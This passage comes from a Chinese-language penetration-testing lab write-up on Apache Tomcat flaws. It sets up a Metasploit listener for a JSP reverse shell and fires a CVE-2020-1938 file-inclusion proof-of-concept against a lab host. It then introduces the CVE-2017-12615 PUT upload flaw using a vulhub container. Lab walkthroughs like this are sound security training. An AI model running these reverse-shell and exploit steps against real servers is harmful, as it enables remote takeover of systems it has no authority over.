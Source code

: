 ![image-20240716104902476](https://image.201068.xyz/assets/image-20240716104902476.png)

#### kali开启本地监听

##### 开启监听

```
msfconsole

use exploit/multi/handler
set lhost 192.168.70.4
set lport 6666
set payload java/jsp_shell_reverse_tcp
run
```

![image-20240716105138836](https://image.201068.xyz/assets/image-20240716105138836.png)

##### 触发反弹 shell

`python2 'Tomcat-ROOT路径下文件包含(CVE-2020-1938).py' -p 8009 -f /WEB-INF/tomcat.jsp 192.168.70.14`

'`Tomcat-ROOT 路径下文件包含\(CVE-2020-1938\).py`'文件修改名字为`Tomcat-ROOT-include(CVE-2020-1938).py`

```
cd /root/tools/poc
python2 Tomcat-ROOT-include(CVE-2020-1938).py -p 8009 -f /WEB-INF/tomcat.jsp 192.168.70.14
```

![image-20240716105627557](https://image.201068.xyz/assets/image-20240716105627557.png)

##### 监听窗口输入命令

![image-20240716105926570](https://image.201068.xyz/assets/image-20240716105926570.png)

### 7.PUT漏洞上传任意文件(CVE-2017-12615)

Tomcat 通过 PUT 方法任意写入文件漏洞 (`CVE-2017-12615`) 漏洞

Tomcat设置了**写权限**（`readonly=false`），导致可以使用PUT方法上传任意文件。

#### 影响范围

> Apache Tomcat 7.0.0 - 7.0.81

#### 启动

```
cd /root/vulhub/tomcat/CVE-2017-12615
docker-compose up -d
```

![image-20240716144947934](https://image.201068.xyz/assets/image-20240716144947934.png)

##### 查看端口
